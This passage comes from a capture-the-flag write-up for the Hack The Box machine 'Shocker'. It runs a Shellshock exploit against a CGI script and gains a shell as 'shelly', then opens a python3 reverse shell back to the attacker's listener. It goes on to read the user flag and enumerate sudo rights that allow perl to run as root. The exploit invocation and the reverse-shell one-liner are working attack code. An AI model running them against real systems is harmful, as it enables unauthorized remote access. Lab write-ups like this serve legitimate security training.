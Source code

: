 ```bash
./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
$ python2 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.X.X lport=1337 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

We got a shell as `shelly`! But we will need to get a more stable shell so lets start a reverse shell connection with `python3`.

```bash
10.10.10.56> which python3
/usr/bin/python3
10.10.10.56> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.X.X",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
$ sudo rlwrap nc -vlnp 9999  
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 50786
shelly@Shocker:/usr/lib/cgi-bin$
```

# user.txt

The user flag is located in `shelly`'s home directory.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
5544bb83bed7cc783c10ccb40ac33794
```

# Enumeration (2)

If we check `shelly`'s `sudo` rights,

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

